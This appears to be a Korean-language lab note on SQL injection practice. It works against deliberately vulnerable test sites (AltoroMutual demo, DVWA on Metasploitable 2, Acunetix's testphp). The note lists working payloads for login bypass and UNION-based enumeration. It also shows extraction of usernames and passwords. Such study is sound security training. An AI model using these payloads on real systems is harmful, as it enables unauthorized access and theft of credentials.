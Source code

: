 ```yaml
---
title: "웹 보안 실습 1"
date: 2024-11-16
categories: [정보보안, 웹 보안]
tags: [IT, Security, Web]
---
```


## SQL 인젝션

### 취약 사이트 실습

#### **1. AltroMutual 사이트**

- URL: `demo.testfire.net`

![](assets/img/정보보안/실습/W_1-1.jpg)

1. `admin' --`
2. `' or 1=1`
3. `' or 'a'='a`

#### **2. DVWA 사이트**

- 환경: Metasploitable 2의 DVWA

1. `' or '1'='1`
2. `' or true#`
3. `1' or '1=1`
4. `' UNION SELECT table_name, NULL FROM information_schema.tables#`
   - 모든 테이블 이름 출력.
   - **UNION** 사용 시 컬럼 수를 맞춰야 하므로 `NULL` 값으로 컬럼 수를 유추
5. `' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users'#`
   - 특정 테이블(`users`)의 컬럼 이름들을 출력
6. `' UNION SELECT user, password FROM users#`
   - 위에서 알아낸 컬럼을 이용해 데이터를 추출

#### **3. Acunetix 사이트**

- URL: `http://testphp.vulnweb.com/listproducts.php?cat=1`

1. **기본 SQL 인젝션**  
`http://testphp.vulnweb.com/listproducts.php?cat=1 or true`

2. **컬럼 수 확인**  
`http://testphp.vulnweb.com/listproducts.php?cat=1 or true UNION ALL SELECT NULL`
- 오류 발생 시 `NULL` 값을 하나씩 늘려 컬럼 수 추측.
- 컬럼 수가 **11개**임을 확인.

3. **실행 가능한 컬럼 식별**  
`http://testphp.vulnweb.com/listproducts.php?cat=1 and false UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11`
- 실행 가능한 컬럼: **11, 7, 2, 9**.

4. **데이터베이스 정보 확인**  
`http://testphp.vulnweb.com/listproducts.php?cat=1 and false UNION ALL SELECT 1, version(), 3, 4, 5, 6, user(), 8, 9, 10, 11`

5. **데이터베이스 이름 확인**  
`http://testphp.vulnweb.com/listproducts.php?cat=1 and 1=0 UNION ALL SELECT 1, 2, 3, 4, 5, 6, 7, 8, database(), 10, 11`

6. **테이블 이름 추출**  
`http://testphp.vulnweb.com/listproducts.php?cat=1 and 1=0 UNION SELECT 1, group_concat(table_name), 3, 4, 5, 6, 7, 8, 9, 10, 11 FROM information_schema.tables WHERE table_schema=database()`
- 테이블 이름들을 한 줄로 나열.

7. **특정 테이블의 컬럼 추출**  
`http://testphp.vulnweb.com/listproducts.php?cat=1 and 1=0 UNION SELECT 1, group_concat(column_name), 3, 4, 5, 6, 7, 8, 9, 10, 11 FROM information_schema.columns WHERE table_name='users'`
- 'users' 테이블의 모든 컬럼 이름 출력.

8. **데이터 추출**  
`http://testphp.vulnweb.com/listproducts.php?cat=1 and 1=0 UNION SELECT 1, uname, 3, 4, 5, 6, 7, 8, pass, 10, 11 FROM users`
- `users` 테이블에서 `uname`(사용자 이름)과 `pass`(비밀번호) 추출.
- 결과: `test`, `test`.